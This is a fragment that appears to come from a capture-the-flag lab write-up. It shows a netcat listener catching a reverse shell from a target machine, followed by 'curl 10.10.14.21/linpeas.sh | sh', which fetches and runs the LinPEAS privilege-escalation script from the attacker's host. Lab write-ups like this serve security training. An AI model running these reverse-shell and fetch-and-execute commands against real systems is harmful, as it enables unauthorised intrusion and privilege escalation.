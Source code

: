 


## LinPeas

┌─[✗]─[user@parrot-virtual]─[~]
└──╼ $nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.220] 39608
ls
cd ..
ls
REVISION
RUBY_VERSION
VERSION
etc
shared
sockets
tmp
upgrade-status
uploads
working
cd uploads
ls
curl 10.10.14.21/linpeas.sh | sh


                     ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄▄
      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄
  ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄
  ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
  ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
  ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
  ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
  ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
  ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
  ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
  ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
  ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
  ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
  ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
   ▄▄▄▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄
        ▄▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄▄▄ 
             ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
    linpeas v3.2.2 by carlospolop


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)